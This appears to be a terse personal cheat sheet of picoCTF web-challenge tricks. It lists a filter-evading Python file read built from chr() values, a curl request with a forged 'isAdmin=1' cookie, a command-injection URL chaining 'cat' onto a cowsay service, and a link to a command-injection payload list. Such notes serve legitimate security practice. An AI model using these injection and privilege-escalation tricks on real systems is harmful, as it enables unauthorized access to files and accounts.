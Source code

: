 - 1) view page source
 
 ------------------------------------------------------------------------------

- curl -I http://shape-facility.picoctf.net:62930/ > check "Server"

- open(chr(47)+"f"+"l"+"a"+"g"+chr(46)+"t"+"x"+"t").read()

- ascii table
- . = 46
- / = 47

-------------------------------------------------------------------------------

curl http://saturn.picoctf.net:50500/check.php --cookie "isAdmin=1"

-------------------------------------------------------------------------------

- https://www.base64decode.org/

-------------------------------------------------------------------------------

- https://caas.mars.picoctf.net/cowsay/hackeddone && cat falg.txt
  
-------------------------------------------------------------------------------

- https://github.com/payloadbox/command-injection-payload-list

-------------------------------------------------------------------------------
